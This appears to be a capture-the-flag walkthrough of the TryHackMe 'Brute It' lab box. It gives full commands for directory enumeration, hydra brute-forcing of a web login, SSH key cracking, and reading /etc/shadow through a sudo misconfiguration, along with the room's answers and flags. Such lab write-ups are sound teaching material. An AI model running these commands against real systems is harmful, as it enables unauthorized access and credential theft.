






## Task 1: About this box
Welcome to Brute It, a beginner-friendly but an interesting box that teaches three core hacking skills: <br>
 - Brute-force attacks
 - Hash cracking
 - Privilege escalation <br>

By the end of this, you'll know how to brute-force web logins, crack SSH keys, dump and crack /etc/shadow, and escalate to root like a boss.

## Task 2: Reconnaissance
“If you know the enemy and know yourself, you need not fear the result of a hundred battles.” - Sun Tzu <br>
_Why Reconnaisance?_ <br>
Before attacking anything, it’s crucial to understand the target: what services are running, what ports are open, what versions are in use, and whether there are any exposed vulnerabilities. <br>
Let's get to know the target. <br>

#### Port Scanning with Nmap
Command used: _nmap -Pn -sS -sV -A 10.10.2.113 -oA nmapscan_ <br>
Nmap scan results: <br>
 <br>

### How many ports are open?
 - SSH is available for remote access. <br>
 - Apache web server is running — an attack surface. <br>
Answer: 2

### What version of SSH is running?
Answer: OpenSSH 7.6p1

### What version of Apache is running?
Answer: 2.4.29

### Which Linux distribution is running?
Answer: ubuntu

### Search for hidden directories on web server. What is the hidden directory?
Now let's dig deeper and do directory bruteforcing. There is a number of commandline tools that we can use: gobuster, dirsearch, dirbuster, and more. I chose to go with feroxbuster. <br>
Feroxbuster is a fast, simple, and recursive content discovery tool designed for web application security assessments and penetration testing. It's written in Rust, which makes it highly efficient and suitable for scanning large websites or directories quickly. <br>
Scan results: <br>
```
bruteIt feroxbuster --url http://10.10.2.113/
                                                                                                                                                                       
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.2.113/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      310c http://10.10.2.113/admin => http://10.10.2.113/admin/
200      GET       15l       74w     6147c http://10.10.2.113/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://10.10.2.113/
301      GET        9l       28w      316c http://10.10.2.113/admin/panel => http://10.10.2.113/admin/panel/
[####################] - 3m     90011/90011   0s      found:4       errors:10     
[####################] - 3m     30000/30000   183/s   http://10.10.2.113/ 
[####################] - 3m     30000/30000   185/s   http://10.10.2.113/admin/ 
[####################] - 3m     30000/30000   194/s   http://10.10.2.113/admin/panel/ 
```
             
<!--  <br> -->
Answer: /admin

## Task 3: Getting a shell
#### Find a form to get a shell on SSH.

### What is the user:password of the admin panel?
Let's access the web server running on port 80, the admin page to be specific. Viewing the page source, there is a comment: "Hey john, if you do not remember, the username is admin" <br>
From this, we can deduce that the username to use in the admin login page is 'admin' and the user is 'john'. <br>
Let’s further enumerate the admin page, to see if there are other pages using gobuster. <br>
Command: gobuster dir -u http://10.10.2.113/admin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html <br>
From this, we discover another page: /index.php <br>
 <br>
This gives us the same admin login page as before. The page prompts for a username and password. We are only provided with a username, and no password. Bruteforce is the only valid attack here. <br>
We need to use our bruteforcing skills to get the password. We can use hydra for that. <br>
Command used: hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.2.113 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid” <br>
Breakdown:
 - -l admin: Username
 - -P rockyou.txt: Password list (rockyou.txt is a famous real-world password list)
 - http-post-form: Tells Hydra to attack a web form
 - /admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid: Form parameters:
    - user=^USER^&pass=^PASS^ - Hydra substitutes usernames and passwords here
    - F=Username or password invalid - Hydra looks for this failure string in the response <br>

 <br>

Answer: admin:xavier

### Crack the RSA key you found. 
#### What is John's RSA Private Key passphrase?
Using the credentials, we log in and inside the dashboard is a download link for an SSH private key (id_rsa). <br>
SSH keys are like passwords but more secure. They allow authentication without typing a password, provided the correct passphrase is entered if the key is encrypted. <br>
 <br>
Clicking the link takes us to the private key, which I copied and saved as 'id_rsa'. <br>
 <br>
Now that we have the private key, we can use john the ripper to crack it. <br>
First let’s convert the private key to a format that john can understand using _ssh2john_. <br>
Command: ssh2john id_rsa > id_rsa.hash <br>
Next is to use john with a wordlist like rockyou.txt. <br>
Command used: john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash <br>
 <br>
Answer: rockinroll <br>

### user.txt
Now we need to ssh to the machine using the private key and passphrase we have. First let’s check the permissions: chmod 600 id_rsa. <br>
SSH refuses keys with insecure permissions. <br>
Then: ssh -i id_rsa john@10.10.2.113 <br>
 <br>
And boom!! We got a shell. <br>
Let's get the flag <br>
 <br>

user.txt: THM{a_password_is_not_a_barrier}

### Web flag
The web flag is given right after logging in the admin page using admin:xavier <br>
Flag: THM{brut3_f0rce_is_e4sy}

## Task 4: Privilege Escalation
_What is privilege escalation?_ <br>
Moving from a regular user account to a root or admin account by exploiting misconfigurations, weaknesses, or vulnerabilities. <br>

### Find a form to escalate your privileges.
#### What is the root's password?
Let’s check for sudo permissions using: _sudo -l_ <br>
 <br>
We see that john can run _/bin/cat_ without a password. This means we can read any file on the system as root. <br>
We can read _/etc/shadow_ which stores hashed passwords. Once we have the root hash, we can crack it using john. <br>
 <br>
Root's password hash: root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7::: <br>
Let’s save it in a file: echo 'root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::' > root.hash <br>
Now, we can crack using john: <br>
 <br>
Answer: football

### root.txt
Now since we have the root’s password, we can escalate to root using: _su root_ and enter the password _football_. <br>
 <br>
Answer: THM{pr1v1l3g3_3sc4l4t10n}

## Final Thoughts
“Security is not a product. It’s a process.” <br>
Even a single weak link - like an unprotected web login or bad sudo rule - leads to total compromise.